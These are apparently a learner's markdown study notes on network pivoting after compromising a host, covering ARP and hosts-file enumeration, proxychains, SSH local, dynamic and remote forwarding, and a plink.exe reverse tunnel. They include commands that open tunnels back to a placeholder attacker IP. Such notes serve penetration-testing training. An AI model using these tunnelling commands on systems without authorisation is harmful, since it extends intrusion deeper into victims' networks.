 # pivot

- Pivoting is the art of using access obtained over one machine to exploit another machine deeper in the network.

two main methods for pivoting :

1. tunnelling/proxying
2. Port forwarding

A proxy is good if we want to redirect lots of different kinds of traffic into our target network. eg to access multiple ports on multiple different machines.

Port Forwarding allows us to access a single port (or a small range) on a target device. 

## Enumeration

five possible ways to enumerate a network through a compromised host

- Using material found on the machine. The hosts file or ARP cache, for example
- Using pre-installed tools
- Using statically compiled tools
- Using scripting techniques
- Using local tools through a proxy

`arp -a` : used to Windows or Linux to check the ARP cache of the machine -- this will show you any IP addresses of hosts that the target has interacted with recently.

`/etc/hosts` or `C:\Windows\System32\drivers\etc\hosts` : static mapping found.

##  Proxychains & Foxyproxy 

When creating a proxy we open up a port on our own attacking machine which is linked to the compromised server, giving us access to the target network. 

### proxychains

- its slowdown connection.

proxy netcat  through a proxy, you could use the command:

`proxychains nc 172.16.0.10 23`

Notice that a proxy port was not specified in the above command. This is because proxychains reads its options from a config file.located at `/etc/proxychains.conf`
the order proxychains look for config file is

```
    The current directory (i.e. ./proxychains.conf)
    ~/.proxychains/proxychains.conf
    /etc/proxychains.conf

```

we interested mainly in config file :

```
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks4  127.0.0.1 9050

```

here we can specified port.

## SSH Tunnelling / Port Forwarding 

Creating a forward (or "local") SSH tunnel can be done from our attacking box when we have SSH access to the target.

`ssh -L LOCAL_PORT:127.0.0.1:DESTINATION_PORT [USER@]SSH_SERVER -fN`

`-f` backgrounds the shell immediately so that we have our own terminal back. `-N` tells SSH that it doesn't need to execute any commands -- only set up the connection.


***

Proxies are made using the `-D` switch.

`ssh -D 1337 user@172.16.0.5 -fN` .

This is useful when combined with a tool such as proxychains. 

**Remote port forwading**

`ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKER_IP`


## Plink.exe

Plink.exe is a Windows command line version of the PuTTY SSH client.

Plink (PuTTY Link) is a command-line connection tool similar to UNIX ssh.

-  create a reverse connection.

```
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

Note that any keys generated by ssh-keygen will not work properly here. You will need to convert them using the puttygen tool, which can be installed on Kali using 
`sudo apt install putty-tools`

After downloading the tool, conversion can be done with:
`puttygen KEYFILE -o OUTPUT_KEY.ppk`